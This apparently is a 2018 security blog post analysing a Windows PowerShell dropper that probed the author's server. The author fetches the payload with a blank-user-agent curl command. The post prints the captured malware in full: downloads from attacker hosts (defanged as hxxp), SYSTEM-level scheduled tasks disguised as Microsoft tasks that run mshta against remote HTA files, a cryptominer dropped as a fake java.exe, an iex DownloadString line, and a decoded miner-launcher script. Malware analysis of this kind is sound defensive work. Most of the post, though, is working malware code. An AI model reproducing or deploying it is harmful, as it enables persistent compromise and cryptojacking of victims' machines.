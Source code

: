 ```yaml
---
title: "Disinvited by User Agent Retry - Windows"
#author: "Author Name"
description: "The capture of that which eluded me previously"
#cover: "/img/cover.jpg"
#tags: ["tagA", "tagB"]
date: 2018-06-28T00:00:00-00:00
draft: false
---
```


Finally, a chance to grab the Windows binaries that eluded me in my previous attempts during Disinvited By User Agent.  I had the same attack probing my server this morning attempting to download and execute a Windows script, but this time I determined the correct user agent for the .Net WebClient class - it's blank.  The class, by default, doesn't send any headers...

curl -A "" hxxp://107.181.174.232/win/checking.ps1 -o checking.ps1

```powershell
$W = New-Object System.Net.WebClient
$arch = Get-WmiObject Win32_Processor | Select-Object -Exp AddressWidth
$priv = [bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")
$osver =  ([environment]::OSVersion.Version).Major


Function win10() {
        mkdir C:\ProgramData\Oracle
        mkdir C:\ProgramData\Oracle\Java
	$W.DownloadFile("hxxp://107.181.174.232/win/bat/win10.bat","C:\Windows\Fonts\sasd.bat")
        cmd /c SCHTASKS /create /tn \Microsoft\Windows\MobilePC\DetectPC /sc MINUTE /f  /mo 10 /tr "cmd /c C:\Windows\Fonts\sasd.bat"  /ru "NT AUTHORITY\SYSTEM" 	
        cmd /c schtasks /tn \Microsoft\Windows\MobilePC\DetectPC /run
        cmd /c SCHTASKS /create /tn \Microsoft\Windows\Shell\WindowsShellUpdate /sc HOURLY /f  /mo 6 /tr "cmd /c mshta hxxp://107.181.174.232/win/update.hta"  /ru "NT AUTHORITY\SYSTEM"   /RL HIGHEST
        cmd /c SCHTASKS /create /tn \Microsoft\Windows\Shell\WinShell /sc DAILY /f  /mo 1 /tr "cmd /c mshta hxxp://107.181.174.232/win/checking.hta"  /ru SYSTEM   /RL HIGHEST
        cmd /c SCHTASKS /create /tn \Microsoft\Windows\UPnP\UPnPHost /sc DAILY /f  /mo 2 /tr "cmd /c mshta hxxp://52irwh2dmhkuhbv5.onion.to/win/checking.hta"  /ru SYSTEM   /RL HIGHEST
        cmd /c SCHTASKS /create /tn \Microsoft\Windows\Registry\RegBackup /sc MINUTE /f  /mo 5 /tr "cmd /c schtasks /tn \Microsoft\Windows\Bluetooth\UpdateDeviceTask /run"  /ru "NT AUTHORITY\SYSTEM"   /RL HIGHEST
	break
	kill $pid
}


Function PrivTrue() {
	mkdir C:\ProgramData\Oracle
	mkdir C:\ProgramData\Oracle\Java
	IF ($arch -eq "64")
	{
	        $W.DownloadFile("hxxp://107.181.174.232/win/min/64.exe","C:\ProgramData\Oracle\Java\java.exe")
	}
	        ELSE
	{
		$W.DownloadFile("hxxp://107.181.174.232/win/min/32.exe","C:\ProgramData\Oracle\Java\java.exe")
	}
	cmd /c schtasks  /create /TN \Microsoft\Windows\Bluetooth\UpdateDeviceTask /TR "C:\ProgramData\Oracle\Java\java.exe" /ST 00:00 /SC once /DU 599940 /RI 1 /F /RL HIGHEST /RU SYSTEM
	cmd /c SCHTASKS /create /tn \Microsoft\Windows\Shell\WindowsShellUpdate /sc HOURLY /f  /mo 6 /tr "cmd /c mshta hxxp://107.181.174.232/win/update.hta"  /ru "NT AUTHORITY\SYSTEM"   /RL HIGHEST	
	cmd /c SCHTASKS /create /tn \Microsoft\Windows\Shell\WinShell /sc DAILY /f  /mo 1 /tr "cmd /c mshta hxxp://107.181.174.232/win/checking.hta"  /ru SYSTEM   /RL HIGHEST
	cmd /c SCHTASKS /create /tn \Microsoft\Windows\UPnP\UPnPHost /sc DAILY /f  /mo 2 /tr "cmd /c mshta hxxp://52irwh2dmhkuhbv5.onion.to/win/checking.hta"  /ru SYSTEM   /RL HIGHEST
	cmd /c SCHTASKS /create /tn "\Microsoft\Windows\EDP\EDP App Lock Task"  /sc hourly /f  /mo 22 /tr "cmd /c mshta hxxp://asq.r77vh0.pw/win/checking.hta"  /ru SYSTEM
	cmd /c SCHTASKS /create /tn \Microsoft\Windows\Registry\RegBackup /sc MINUTE /f  /mo 5 /tr "cmd /c schtasks /tn \Microsoft\Windows\Bluetooth\UpdateDeviceTask /run"  /ru "NT AUTHORITY\SYSTEM"   /RL HIGHEST 
	cmd /c schtasks /tn  \Microsoft\Windows\Bluetooth\UpdateDeviceTask /run
	$W.DownloadFile("hxxp://107.181.174.232/win/sasd.bat","C:\Windows\Fonts\sasd.bat")
	cmd /c SCHTASKS /create /tn \Microsoft\Windows\MobilePC\DetectPC /sc MINUTE /f  /mo 10 /tr "cmd /c C:\Windows\Fonts\sasd.bat"  /ru "NT AUTHORITY\SYSTEM"   
	
}

Function PrivFalse() {
	W.DownloadFile("hxxp://107.181.174.232/win/privfalse.bat","$env:APPDATA\Microsoft\Network\PrivFalse.bat")
	cmd /c SCHTASKS /create /tn "Optimize Start Menu Cache Files-S-3-5-21-2236678155-433519125-1142214968-1037" /sc MINUTE /f  /mo 5 /tr "cmd /c %appdata%\Microsoft\Network\PrivFalse.bat"
	cmd /c SCHTASKS /create /tn "Optimize Start Menu Cache Files-S-3-5-21-2236678155-433529325-1142214968-1037" /sc HOURLY /f  /mo 22 /tr "cmd /c mshta hxxp://107.181.174.232/win/checking.hta"
	cmd /c SCHTASKS /create /tn "Optimize Start Menu Cache Files-S-3-5-21-2236678155-433529325-1142214968-1137" /sc HOURLY /f  /mo 20 /tr "cmd /c mshta hxxp://asq.r77vh0.pw/win/checking.hta"
}

Function CleanerEtc() {
	$W.DownloadFile("hxxp://107.181.174.232/win/del.ps1","C:\Windows\Fonts\del.ps1")
	C:\Windows\System32\schtasks.exe /f /tn "\Microsoft\Windows\MUI\LPupdate" /tr "cmd /c powershell -exec bypass C:\Windows\Fonts\del.ps1" /ru SYSTEM /sc HOURLY /mo 4 /create
}

Function PrivFalsemStop() {
	cmd /c schtasks /tn "Optimize Start Menu Cache Files-S-3-5-21-2236678155-433519125-1142214968-1037" /delefe /f
	cmd /c wmic process where executablepath="C:\\ProgramData\\Oracle\\Java\\java.exe" delete 
        start-sleep 1
	cmd /c del /q /f "C:\ProgramData\Oracle\Java\java.exe"
}

Function PrivTrueMStop() {
	cmd /c schtasks /tn \Microsoft\Windows\Registry\RegBackup /delete /f
	cmd /c schtasks /tn \Microsoft\Windows\Bluetooth\UpdateDeviceTask /end
	cmd /c wmic process where executablepath="C:\\ProgramData\\Oracle\\Java\\java.exe" delete 
	start-sleep 1
	cmd /c del /q /f C:\ProgramData\Oracle\Java\java.exe
}


IF ($osver -eq "10")
{
	echo "win10"
	win10
}

IF ($priv -eq $true)
{
	PrivTrueMStop
	start-sleep 5
	PrivTrue
}
else
{
	PrivFalsemStop
	PrivFalse
}
CleanerEtc
#cmd /c powershell  -w 1 -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command iex ((New-Object System.Net.WebClient).DownloadString('hxxp://107.181.174.232/win/sc.ps1'))
cmd /c taskkill /im mshta.exe /f
```

Finally, awesome.  And a whole bunch of other great stuff to download too, including a bunch of stuff VirusTotal hasn't seen yet.

The main tactic used in here is setting up persistence using scheduled tasks - an oldie but a goodie.

Lots of use of [mshta](https://attack.mitre.org/wiki/Technique/T1170) too...  Pretty cool.  This allows execution of VBScript, which re-downloads and executes the checking.ps1.

Dropping a fake Java...  Nice.  Makes it look like the executable isn't unfriendly...  But at least the 32-bit version is UPX packed.

privfalse.bat contains some powershell which looks like it does some text replacement, maybe base64 decoding, then executes the result.  Here's the un-base64 encoded version...

```powershell
$arch = Get-WmiObject Win32_Processor | Select-Object -Exp AddressWidth
$WebClient = New-Object System.Net.WebClient
mkdir C:\ProgramData\Oracle\Java > $null
if((Test-Path $env:Temp\waqs.txt) -eq $true)
{
	echo "Pass"
} else {
echo "98098" > $env:Temp\waqs.txt
}
$pidm = Get-Content $env:Temp\waqs.txt 


if((Test-Path C:\ProgramData\Oracle\Java\java.exe) -eq $true)
{
    echo "pass miner"
} 
else {
	
		IF ($arch -eq "64")
		{
			$WebClient.DownloadFile("hxxp://107.181.174.232/win/min/64.exe","C:\ProgramData\Oracle\Java\java.exe")
		}
				ELSE
		{
			$WebClient.DownloadFile("hxxp://107.181.174.232/win/min/64.exe","C:\ProgramData\Oracle\Java\java.exe")
		}
}

if((get-process -id $pidm -ErrorAction SilentlyContinue) -eq $Null){ 
			(invoke-wmimethod win32_process -name create -argumentlist 'C:\\ProgramData\\Oracle\\Java\\java.exe').ProcessId > $env:Temp\waqs.txt
	}

	else{ 
		echo $null
}
```


